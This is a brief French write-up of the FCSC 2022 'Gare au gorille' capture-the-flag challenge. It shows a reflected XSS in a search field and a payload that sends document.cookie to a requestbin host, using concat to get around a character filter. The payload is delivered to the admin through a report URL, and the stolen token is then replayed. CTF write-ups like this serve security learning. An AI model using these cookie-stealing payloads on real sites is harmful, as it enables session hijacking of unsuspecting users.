 <h1>Gare au gorille</h1>

<p>On test dans un premier temps le champs search :</p>

> https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert(1)</script> <br/>



![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20160319.png?raw=true "alert")

<br/>
<br/>
cela fonctionne on test donc simplement : <br/>
je crée une request bin https://requestbin.net 

<script>document.location= urlrequestbin?= + document.cookie </script>
<br/>
cela ne marche pas après plusieurs test on se rend compte que les '+' et les ';' ne fonctionne pas. Pour contourner le problème je fais donc une recherche type javascript concat fonction et je tombe bien sur une fonction concat et modifie mon payload en conséquense : <br/> 


  <script>document.location="".concat('urlrequestbin?=', document.cookie)</script> 
</br>
on recupère notre propre token, on envoie donc la payload à l'admin par l'url de report : <br/> 

https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<script>document.location="".concat(%27http://urlrequestbin?=%27,%20document.cookie)</script> <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20162522.png?raw=true "token") <br/>

on set maintenant le token dans notre cookie dans le header : <br/>

Cookie: token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45 <br/>

![Alt text](https://github.com/Haktary/FCSC-2022/blob/main/Gare%20au%20gorille/Capture%20d’écran%202022-05-10%20163109.png?raw=true "flag")







